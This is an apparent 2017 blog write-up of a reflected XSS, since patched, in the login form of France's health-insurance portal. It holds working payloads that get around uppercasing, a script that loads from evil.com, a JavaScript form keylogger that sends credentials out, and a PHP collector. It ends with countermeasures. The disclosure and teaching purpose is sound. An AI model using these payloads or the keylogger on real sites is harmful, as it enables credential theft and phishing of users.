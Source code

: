 ```yaml
---
layout: post
title:  "A fun case of XSS and other web concepts"
date:   2017-07-25
category: Web Security
excerpt_separator: <!--more-->
---
```

Hello folks,  
  
I would like to share with you a practical case of reflected XSS while i was looking at my national health service account. Right now the XSS has been patched (we have an efficient dedicated national service where we can report such issues).
<!--more-->  
  
**What is the issue ?**  
  
A reflected [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) in the login field at the authentication page from the website https://assure.ameli.fr where all french citizen are consulting their social security account. Some digits are required but setting some alphacharacters as login will return the string in uppercase.  
  
**Where is the issue ?**  
  
So i set:  
![image1]({{ site.url }}/public/images/xss-practical-case/image1.png)  
  
And i got:  
```html
<form name="connexionCompteForm" id="connexioncompte_2connexionCompteForm" method="post" action="https://assure.ameli.fr:443/PortailAS/appmanager/PortailAS/assure?_nfpb=true&amp;_windowLabel=connexioncompte_2&amp;connexioncompte_2_actionOverride=%2Fportlets%2Fconnexioncompte%2Fvalidationconnexioncompte&amp;_pageLabel=as_login_page" class="r_cnx_form">
...
<input id="connexioncompte_2nir_as" type="text" value="THEPOSTLOGIN" maxlength="13" size="13" placeholder="Mon numéro de sécurité sociale" title="Mon numéro de sécurité sociale" tabindex="3" name="connexioncompte_2numSecuriteSociale" />
...
</form>
```  
  
Let's try something else with the login **toto<>"'();/\:**:  
```
<input id="connexioncompte_2nir_as" type="text" value="TOTO<>"'();/\" maxlength="13" ...
```
  
No escaping, no sanitizing or HTML encoding but we will have to deal with UPPERCASE. **HTML is not case sensitive but javascript is**, so we will do some HEX encoding for the javascript part.  

An important thing i forgot to mention is that the payload is **truncated to 255 characters**.  
  
So this is **how to exploit an XSS when your payload is UPPERCASED (and truncated):**  
  
**First payload:**  
We can test the XSS thanks to this payload (alert - *also notice that we want to preserve the way how the webpage renders*):  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=" /><IMG SRC=X ONERROR=&#x61;&#x6C;&#x65;&#x72;&#x74;(&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x64;&#x6F;&#x6D;&#x61;&#x69;&#x6E;) hidden><nimp "&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```
  
Full payload url encoded:  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=%22%20%2F%3E%3CIMG%20SRC%3DX%20ONERROR%3D%26%23x61%3B%26%23x6C%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B(%26%23x64%3B%26%23x6F%3B%26%23x63%3B%26%23x75%3B%26%23x6D%3B%26%23x65%3B%26%23x6E%3B%26%23x74%3B%26%23x2E%3B%26%23x64%3B%26%23x6F%3B%26%23x6D%3B%26%23x61%3B%26%23x69%3B%26%23x6E%3B)%20hidden%3E%3Cnimp%20%22&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```
  
*But wait... you process a GET request and you were talking about a form with POST method ?*  
Yes, there but there is no server-side filtering on the specific POST method (*of course it's also exploitable with POST*).  
  
So what do we have ?:  
![image2]({{ site.url }}/public/images/xss-practical-case/image2.png)  
  
It works because i'm using Firefox. IE and Chrome embed a reflected XSS auditor which prevents this kind of inline javascript execution.  
  
Now how to deal with a truncated payload ?:  
Easy, we just have to call an external javascript file.  
  
**Final payload:**  
```
" name="connexioncompte_2numSecuriteSociale" placeholder="&#x4d;&#x6f;&#x6e;&#x20;&#x6e;&#x75;&#x6d;&#xe9;&#x72;&#x6f;&#x20;&#x64;&#x65;&#x20;&#x73;&#xe9;&#x63;&#x75;&#x72;&#x69;&#x74;&#xe9;&#x20;&#x73;&#x6f;&#x63;&#x69;&#x61;&#x6c;&#x65;" /><script src='https://evil.com/poc/poc.js'></script><nimp "
```  
  
Final payload url encoded:  
```
https://assure.ameli.fr/PortailAS/appmanager/PortailAS/assure?connexioncompte_2numSecuriteSociale=%22%20name%3D%22connexioncompte_2numSecuriteSociale%22%20placeholder%3D%22%26%23x4d%3B%26%23x6f%3B%26%23x6e%3B%26%23x20%3B%26%23x6e%3B%26%23x75%3B%26%23x6d%3B%26%23xe9%3B%26%23x72%3B%26%23x6f%3B%26%23x20%3B%26%23x64%3B%26%23x65%3B%26%23x20%3B%26%23x73%3B%26%23xe9%3B%26%23x63%3B%26%23x75%3B%26%23x72%3B%26%23x69%3B%26%23x74%3B%26%23xe9%3B%26%23x20%3B%26%23x73%3B%26%23x6f%3B%26%23x63%3B%26%23x69%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%22%20%2F%3E%3Cscript%20src%3D%27https%3A%2F%2Fevil.com%2Fpoc%2Fpoc.js%27%3E%3C%2Fscript%3E%3Cnimp%20%22&connexioncompte_2codeConfidentiel=&connexioncompte_2actionEvt=connecter
```  
   
On our web server, we are creating the web tree *POC/POC.JS* (scheme and domain name are not case sensitive). But does a little bird sing the word CORS (Cross-Origin Resource Sharing)?  
  
Here are some examples of resources which may be embedded cross-origin ([https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)):  
 - JavaScript with ```<script src="..."></script>```. Error messages for syntax errors are only available for same-origin scripts.
 - CSS with ```<link rel="stylesheet" href="...">```. Due to the relaxed syntax rules of CSS, cross-origin CSS requires a correct Content-Type header. Restrictions vary by browser: IE, Firefox, Chrome, Safari (scroll down to CVE-2010-0051) and Opera.
 - Images with ```<img>```. Supported image formats include PNG, JPEG, GIF, BMP, SVG, ...
 - Media files with ```<video>``` and ```<audio>```.
 - Plug-ins with ```<object>```, ```<embed>``` and ```<applet>```.
 - Fonts with ```@font-face```. Some browsers allow cross-origin fonts, others require same-origin fonts.
 - Anything with ```<frame>``` and ```<iframe>```. A site can use the X-Frame-Options header to prevent this form of cross-origin interaction.
  
But in fact whatever... we are owning the web server we would be able to add if it was necessary the response header ```access-control-allow-origin: *``` for any resources.  
  
But what kind of cool javascript payload can we inject? (knowing that the ```JSESSIONID``` cookie has the flag ```HttpOnly```, so not accessible via javascript).  
  
![image3]({{ site.url }}/public/images/xss-practical-case/image3.png)  
  
**We will add a callback function that will be triggered once the forms on the webpage will be submitted** (allowing us to capture the credentials).  
Check [https://github.com/phackt/pentest/tree/master/exploits/js_keylogger](https://github.com/phackt/pentest/tree/master/exploits/js_keylogger) for source code.  
  
**POC.JS**  
```javascript
window.onload = function () {
	for(var i=0; i<document.forms.length; i++){
	  	document.forms[i].addEventListener("submit", function() {
	  		for(e=0; e<this.elements.length; e++){
	  			keys = "[name:" + this.elements[e].name + ",value:" + this.elements[e].value + ",type:" + this.elements[e].type + "]";
	  			new Image().src = 'https://evil.com/key.php?c='+keys;
	  		}
    	}, false);
	}
}
```
  
**key.php**  
```php
<?php
if(!empty($_GET['c'])) {
    $logfile = fopen('data.txt', 'a+');
    fwrite($logfile, $_GET['c']."\n");
    fclose($logfile);
}
?>
```  
  
So suppose you are receiving a link which exploits the XSS vulnerability and you innocently enter your credentials to check your account, the attacker will receive:  
```
[name:CONNEXIONCOMPTE_2NUMSECURITESOCIALE,value:1234567890123,type:text]
[name:connexioncompte_2codeConfidentiel,value:89769874,type:password]
[name:connexioncompte_2actionEvt,value:connecter,type:hidden]
[name:submit,value:Valider,type:submit]
```  
  
This kind of vulnerability could be part of a **phishing campaign** which encourages people to log in by clicking on the malicious link.  
  
**COUNTERMEASURES**:  
 - HTML Encoding (HTML entities and numeric character references) - [https://en.wikipedia.org/wiki/Character_encodings_in_HTML](https://en.wikipedia.org/wiki/Character_encodings_in_HTML)
 - Sanitizing
 - Escaping
 - White-listing
 - Block inline javascript via CSP (*X-XSS-Protection is deprecated and will be replaced by the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) directive Reflected-XSS*)
  
Dealing with external resources, blocking all cross domains requests via a Content Security Policy rule may be not relevant because a lot of these resources are legitimate on a website.  
However we can do some subtle CSP rules in order to allow only what is needed.  

But if a web site administrator wants to allow only resources from the *same origin* (this excludes subdomains):  
```
Content-Security-Policy: default-src 'self'
```
  
Web applications are really interesting because of all the concepts you have to deal with.  
  
Hope you enjoyed.  
  
Phackt.
